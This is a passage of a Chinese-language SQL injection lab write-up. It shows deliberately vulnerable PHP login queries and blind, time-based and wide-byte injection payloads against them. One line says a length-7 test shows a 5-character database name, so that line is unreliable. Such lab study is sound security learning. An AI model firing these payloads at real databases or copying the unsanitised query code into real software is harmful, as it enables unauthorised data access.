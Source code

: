 `注: 这里 123 是我创建的用户,可能原来是 admin,自己查一下数据库里的数据`

payload: `123' and 1=1 #` 有结果返回说明是字符型

payload: `123' and length(database())=7 #` 有结果,库名字7个字符

后面就是正常的盲注爆库步骤了,略

### 盲注(base on time)

**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    $name=$_GET['name'];//这里没有做任何处理,直接拼到select里面去了
    $query="select id,email from member where username='$name'";//这里的变量是字符型,需要考虑闭合
    $result=mysqli_query($link, $query);//mysqi_query不打印错误描述
//     $result=execute($link, $query);
//    $html.="<p class='notice'>i don't care who you are!</p>";
    if($result && mysqli_num_rows($result)==1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            //这里不管输入啥,返回的都是一样的信息,所以更加不好判断
            $html.="<p class='notice'>i don't care who you are!</p>";
        }
    }else{

        $html.="<p class='notice'>i don't care who you are!</p>";
    }
}
```

**漏洞利用**

源码里注释说的很清楚了,不管输入的是啥,返回的都是一样的.但就算没有不同的返回值,也是存在不同的返回情况的,因为查询语句是一定会被执行的.能通过控制返回的时间来判断查询是否存在

`123' and if(length(database())=7,sleep(5),1) #` 明显延迟,说明数据库名的长度为5个字符;

后面的步骤按部就班,略

### 宽字节注入

**服务器端核心代码**
```php
if(isset($_POST['submit']) && $_POST['name']!=null){

    $name = escape($link,$_POST['name']);
    $query="select id,email from member where username='$name'";//这里的变量是字符型,需要考虑闭合
    //设置mysql客户端来源编码是gbk,这个设置导致出现宽字节注入问题
    $set = "set character_set_client=gbk";
    execute($link,$set);

    //mysqi_query不打印错误描述
    $result=mysqli_query($link, $query);
    if(mysqli_num_rows($result) >= 1){
        while ($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{
        $html.="<p class='notice'>您输入的username不存在,请重新输入!</p>";
    }
}
```
